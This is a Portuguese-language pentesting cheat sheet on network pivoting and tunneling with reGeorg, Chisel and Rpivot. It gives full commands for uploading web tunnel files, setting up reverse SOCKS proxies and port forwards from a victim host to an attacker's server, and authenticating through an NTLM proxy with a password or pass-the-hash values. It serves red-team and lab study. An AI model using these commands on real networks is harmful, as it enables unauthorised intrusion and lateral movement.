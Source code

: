## reGeorg

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Você precisa fazer upload de um arquivo web de túnel: ashx\|aspx\|js\|jsp\|php\|php\|jsp

```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```

## Chisel

Você pode baixá-lo na página de releases do [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)  
Você precisa usar a **mesma versão para o cliente e o servidor**

### socks

```bash
./chisel server -p 8080 --reverse #Server
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client
#E agora você pode usar proxychains com a porta 1080 (padrão)
```

### Port forwarding

```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505
```

## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Túnel reverso. O túnel é iniciado a partir da vítima.
Um proxy socks4 é criado em 127.0.0.1:1080

```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```

Pivot through **NTLM proxy**

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
